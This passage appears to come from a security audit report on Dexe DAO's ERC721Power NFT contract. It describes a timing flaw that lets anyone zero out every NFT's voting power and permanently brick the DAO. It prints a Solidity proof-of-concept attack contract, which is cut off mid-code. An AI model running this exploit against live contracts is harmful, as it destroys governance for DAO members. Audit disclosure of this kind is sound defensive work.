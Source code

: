 This attack is extremely devastating as the individual power of `ERC721Power` nfts can never be increased; it can only decrease over time if the required collateral is not deposited. By setting all nfts' `currentPower = 0` as soon as power calculation starts (`block.timestamp == ERC721Power.powerCalcStartTimestamp`) the `ERC721Power` contract is effectively completely bricked - there is no way to "undo" this attack unless the nft contract is replaced with a new contract.

Dexe-DAO can be created [using only nfts for voting](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/user-keeper/GovUserKeeper.sol#L74); in this case this exploit which completely bricks the voting power of all nfts means a new DAO has to be re-deployed since no one can vote as everyone's voting power has been destroyed.

**Proof of Concept:** Add attack contract `mock/utils/ERC721PowerAttack.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "../../gov/ERC721/ERC721Power.sol";

import "hardhat/console.sol";

contract ERC721PowerAttack {
    // this attack can decrease ERC721Power::totalPower by the the true max power of all
    // the power nfts that exist (to zero), regardless of who owns them, and sets the current
    // power of all nfts to zero, totally bricking the ERC721Power contract.
    //
    // this attack only works when block.timestamp == nftPower.powerCalcStartTimestamp
    // as it takes advantage of a difference in getNftPower() & recalculateNftPower():
    //
    // getNftPower() returns 0 when block.timestamp <= powerCalcStartTimestamp
    // recalculateNftPower returns 0 when block.timestamp < powerCalcStartTimestamp
    function attack(
        address nftPowerAddr,
        uint256 initialTotalPower,
        uint256 lastTokenId
    ) external {
        ERC721Power nftPower = ERC721Power(nftPowerAddr);

        // verify attack starts on the correct block
        require(
            block.timestamp == nftPower.powerCalcStartTimestamp(),
            "ERC721PowerAttack: attack requires block.timestamp == nftPower.powerCalcStartTimestamp"
        );

        // verify totalPower() correct at starting block
        require(
            nftPower.totalPower() == initialTotalPower,
            "ERC721PowerAttack: incorrect initial totalPower"
        );

        // call recalculateNftPower() for every nft, this:
        // 1) decreases ERC721Power::totalPower by that nft's max power
        // 2) sets that nft's currentPower = 0
        for (uint256 i = 1; i <= lastTokenId; ) {
            require(
                nftPower.recalculateNftPower(i) == 0,
                "ERC721PowerAttack: recalculateNftPower() should return 0 for new nft power"
            );

            unchecked {
                ++i;
            }
        }

        require(
```